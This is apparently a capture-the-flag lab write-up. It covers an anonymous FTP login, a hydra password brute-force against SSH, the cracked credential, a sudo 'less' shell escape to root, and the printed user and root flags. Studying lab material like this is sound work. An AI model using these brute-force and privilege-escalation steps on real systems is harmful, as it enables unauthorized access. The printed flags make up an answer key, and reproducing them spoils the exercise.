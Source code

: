# user flag
`nmap` -- `ftp` and `ssh`  
ftp allows anonymous login  
found `note_to_jake.txt` stating that his password is really weak  
used hydra to crack the password `hydra -l jake -P /usr/share/wordlists/rockyou.txt`  
`jake - 987654321`  
ssh into the machine `ssh jake@IP`  

found flag in `/home/holt/user.txt`
<details>
<summary>user.txt</summary>
ee11cbb19052e40b07aac0ca060c23ee
</details>  

# root flag
`sudo -l` showed that less could be run as root --> `sudo less /etc/profile` `!/bin/sh`  
upgrade shell -- `python3 -c "import pty; pty.spawn('/bin/bash')"` --> `export TERM=xterm` for autocomplete, history, etc  

found in `/root/root.txt`  
<details>
<summary>root.txt</summary>
63a9f0ea7bb98050796b649e85481845
</details>  
